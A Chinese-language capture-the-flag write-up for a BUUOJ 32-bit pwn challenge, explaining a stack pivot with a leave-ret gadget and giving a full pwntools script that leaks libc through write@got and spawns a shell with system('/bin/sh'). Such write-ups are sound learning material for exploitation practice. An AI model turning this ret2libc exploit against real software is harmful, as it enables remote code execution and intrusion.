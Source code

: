 # [Black Watch 入群题]PWN

[题目地址](https://buuoj.cn/challenges#[Black%20Watch%20%E5%85%A5%E7%BE%A4%E9%A2%98]PWN)

继续巩固基础。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

这个配置见了无数遍了。main内部调用了漏洞函数。

```c
void vul_function(void)

{
  size_t sVar1;
  undefined input [24];
  
  sVar1 = strlen(m1);
  write(1,m1,sVar1);
  read(0,s,0x200);
  sVar1 = strlen(m2);
  write(1,m2,sVar1);
  read(0,input,32);
  return;
}
```

m1和m2是两句话，不重要，关键在于接收输入的s在bss段。根据经验，一般用bss段接收输入的地方80%有问题。继续往下看，还有一个接收输入的，有明显栈溢出。不过input距离ebp有0x18，32-0x18=8，32位系统只能填个ebp和返回地址。我瞬间就想到了返回s的地址，思路倒是对了，基础没跟上。当时脑抽了一下直接往s里放shellcode，把nx当空气。这道题应该用之前见过一次的栈迁移。栈迁移最常用的就是leave-ret这段gadget。

```
leave
//mov esp ebp  将ebp指向的地址给esp
//pop ebp  将esp指向的地址存放的值赋值给ebp
ret
//pop eip  将esp指向的地址存放的值赋值给eip
```

这题该怎么做呢？很简单，把ebp覆盖为s的地址-4，返回地址覆盖为leave-ret gadget。注意程序本身就有一个leave-ret，因此我们输入payload会执行两次leave-ret。第一次把esp指向ebp，pop ebp将s地址-4弹进ebp，同时esp+4，指向gadget的地址（每次pop esp都会+4，push则是会-4，因为栈向低地址增长）。第二次继续把esp指向的东西设置为ebp指向的东西，但这次ebp里已经是s地址-4了，于是我们成功把esp改为s地址-4。还没停，继续pop ebp，ebp倒不会有改变，而esp因为pop又上升4，指向s。最后pop eip执行gadget。曾经不理解的地方是为什么一定要两次才能迁移栈，今天意识到第一个leave的mov esp ebp执行时ebp还没有改变，保持原来的值，所以esp的值还在当前栈上，直到下一次pop ebp真正改变ebp第二个leave才能把目标地址放进esp中。

这回nx没用了，nx让我们不能直接跳转到执行栈外的一块地方执行shellcode，但是我们直接把当前程序的执行栈搬过去了，nx它能拿我们怎么样呢？剩下的步骤就是普通泄露地址+ret2libc了。

```python
from pwn import *
context.log_level='debug'
p=remote("node4.buuoj.cn",29271)
leave_ret=0x08048408
c=0x0804a300
write_plt=0x08048380
write_got=0x0804a01c
main=0x08048513
payload=p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
p.sendafter("name?",payload)
payload1=b'a'*0x18+p32(c-4)+p32(leave_ret)
p.sendafter("say?",payload1)
write_addr=u32(p.recv(4))
libc_base=write_addr-	869312
system_addr=libc_base+	239936
binsh=libc_base+	0x0015902b 
payload = p32(system_addr) + p32(main) + p32(binsh)
p.sendafter('name?',payload)
p.sendafter("say?",payload1)
p.interactive()
```

发送payload1时不能用sendline，否则无法getshell。在这里卡了好久。补充带图解释的[wp](https://blog.csdn.net/mcmuyanga/article/details/109260008)。

今天又看了一眼，栈迁移的结果并不能让我们执行任意的shellcode，只是多开辟了一块用来写rop链的空间。所以这类题的一个特征是，rop链攻击思路很明朗，但没有足够的空间写rop链。所以用栈迁移找到一块方便写rop链的地方